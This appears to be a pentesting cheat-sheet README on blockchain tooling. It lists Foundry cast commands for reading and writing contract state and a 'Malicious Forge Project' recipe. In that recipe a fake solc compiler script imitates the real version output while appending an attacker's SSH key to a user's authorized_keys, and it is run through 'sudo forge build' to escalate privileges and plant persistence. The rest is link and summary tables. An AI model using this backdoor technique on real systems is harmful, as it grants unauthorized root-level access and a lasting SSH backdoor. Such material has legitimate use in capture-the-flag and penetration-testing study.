

# Blockchain

- [Resources](#resources)
- [Blockchain Flowchart](#blockchain-flowchart)

## Table of Contents

- [Blockchain Flowchart](#blockchain-flowchart)
- [Foundry](#foundry)

## Blockchain Flowchart



> **Read more:** For additional tools and references, see [Resources](#resources) below.

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Foundry | Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust. | https://github.com/foundry-rs/foundry |
| Tamilselvan Cybersecurity | Connect · Network | https://github.com/Tamilselvan-S-Cyber-Security |
| Tamilselvan - Website | Personal portfolio & resources | https://tamilselvan-official.web.app/ |
| Tamilselvan - LinkedIn | Professional profile | https://in.linkedin.com/in/tamil-selvan-383618304 |

## Foundry

### Common Commands

```console
$ cast storage <TARGET_ADDRESS> 0 --rpc-url <RHOST>/rpc
$ cast call --rpc-url <RHOST>/rpc <TARGET_ADDRESS> "balanceOf(address)(uint256)" <ADDRESS>
$ cast send <TARGET_ADDRESS> "balanceOf(address)(uint256)" <ADDRESS> <VALUE> --private-key <PRIVATE_KEY> --rpc-url <RHOST>/rpc
$ cast call --rpc-url <RHOST>/rpc <TARGET_ADDRESS> "balanceOf(address)(uint256)" <ADDRESS>
$ cast call --rpc-url <RHOST>/rpc <TARGET_ADDRESS> "allowance(address,address)(uint256)" <ADDRESS> <ADDRESS>
```

### Malicious Forge Project

#### Create Project

```console
$ forge init /PATH/TO/FOLDER/<FOLDER> --no-git --offline
```

#### Malicious Solidity Compiler (solc)

```bash
#!/bin/bash
if [[ $1 == "--version" ]]; then
    echo "solc, the solidity compiler"
    echo "Version: 0.8.17+commit.8df45f5f.Linux.g++"
else
    mkdir -p /home/<USERNAME>/.ssh
    echo "<SSH_KEY>" >> /home/<USERNAME>/.ssh/authorized_keys
    chmod 700 /home/<USERNAME>/.ssh
    chmod 600 /home/<USERNAME>/.ssh/authorized_keys
fi
```

#### Set Permission

```console
$ chmod 777 solc
```

#### Execution

```console
$ sudo forge build --use /PATH/TO/FILE/solc
```

---

## More contents

| Subject | Description |
| --- | --- |
| Additional resources | See Resources (Foundry). |
| Blockchain recon | Recon → Analyze → Exploit → Execute; see flowchart. |

## More tables

| Reference | Location |
| --- | --- |
| Foundry commands | cast, forge; see Foundry section above. |
| Contract interaction | cast call, cast send in Foundry section. |

## Tools and commands

| Category | Example |
| --- | --- |
| cast | `cast storage <ADDRESS> 0 --rpc-url <URL>`, `cast call` — see Foundry. |
| forge | `forge init`, `forge build` — see Foundry section. |

## Payloads table

| Type | Description | Reference |
| --- | --- | --- |
| Contract calls | cast call/send, ABI payloads | See Foundry section for balanceOf, allowance, etc. |
| Malicious build | Backdoor solc, forge build | See Malicious Forge Project in Foundry section. |

---

## Connections

**Tamilselvan Cybersecurity** — Connect · Network:

| Resource | Link |
| --- | --- |
| GitHub | https://github.com/Tamilselvan-S-Cyber-Security |
| Website | https://tamilselvan-official.web.app/ |
| LinkedIn | https://in.linkedin.com/in/tamil-selvan-383618304 |
